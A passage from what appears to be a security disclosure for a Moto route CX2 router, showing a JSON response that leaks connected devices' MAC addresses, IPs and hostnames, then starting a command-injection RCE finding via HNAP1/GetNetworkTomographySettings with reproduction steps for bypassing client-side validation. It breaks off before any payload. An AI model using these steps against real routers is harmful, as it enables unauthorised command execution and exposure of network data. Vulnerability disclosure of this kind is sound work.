     }
    getRouterBasicInfo
    ```

    ```json
    {
    "GetMultipleHNAPsResponse": {
        "GetStationSettingsResponse": {
            "wire_sta_list": "00:3e:e1:c4:ff:95,192.168.51.143,tester,2019-06-24 20:06:16,615,0,Apple  Inc.",
            "wireless_sta_2g_list": "",
            "wireless_sta_2g_guest_list": "",
            "wireless_sta_5g_list": "",
            "wireless_sta_5g_guest_list": "",
            "offline_sta_list": "00:e0:4c:6c:27:6b,192.168.51.195,MacBook-Pro,2019-06-06 13:52:18,,0,null;a0:99:9b:0e:b8:b9,192.168.51.215,securisecs-MBP,2017-09-08 18:21:17,,1,Apple  Inc.;f0:18:98:39:d1:2a,192.168.51.240,MacBook-Pro,2019-06-24 15:44:02,,2,null;f4:cb:52:95:7f:82,192.168.51.222,192.168.51.222,2019-05-30 20:55:35,,1,HUAWEI TECHNOLOGIES CO. LTD;80:e6:50:0e:09:ea,192.168.51.140,*******s-MacPro,2019-06-03 07:23:15,,2,Apple  Inc.;50:64:2b:0f:a7:f2,192.168.51.100,192.168.51.100,2019-06-03 07:58:35,,0,XIAOMI Electronics CO. LT;68:8f:84:05:a1:f5,192.168.51.137,192.168.51.137,2019-06-03 07:58:36,,0,HUAWEI TECHNOLOGIES CO. LTD;00:3e:e1:c3:74:80,192.168.51.168,*******dePro,2019-06-06 19:10:38,,0,Apple  Inc.;00:3e:e1:c4:ff:94,192.168.51.142,*******MacPro,2019-06-09 14:39:38,,0,Apple  Inc.;b8:63:4d:23:2c:f6,192.168.51.200,*******-Main,2019-06-20 19:36:58,,2,Apple  Inc.",
            "wireless_maclist_mode": "ojbk",
            "wireless_maclist": "123,123123123",
            "GetStationSettingsResult": "OK"
        },
        "GetWebsiteFilterSettingsResponse": {
            "parent_control_rule": "1,,a0:99:9b:0e:b8:b9,1,testtest.org,00:00:00,23:59:00,Mon",
            "GetWebsiteFilterSettingsResult": "OK"
        },
        "GetNetworkSettingsResponse": {
            "lan(0)_mac": "E4:90:7E:F8:38:F4",
            "lan(0)_ipaddr": "192.168.51.1",
            "lan(0)_netmask": "255.255.255.0",
            "lan(0)_dhcps_enable": "1",
            "lan(0)_dhcps_start": "100",
            "lan(0)_dhcps_end": "249",
            "lan(0)_dhcps_lease": "1440m",
            "GetNetworkSettingsResult": "OK"
        },
        "GetMultipleHNAPsResult": "OK"
        }
    }
    ```

5. HNAP1/GetNetworkTomographySettings RCE

    **Description**  

    An issue was discovered in Moto route CX2 1.0.2. An attacker could perform a command injection to execute arbitrary system command on the router by HNAP1/GetNetworkTomographySettings.  

    **Reproduce**  
    1. Login first
    2. Bypass browser side input validation. I just use Tampermonkey to inject a piece of JS code while accessing Diagnosis. Or you can free to use any proxy tools like burp.
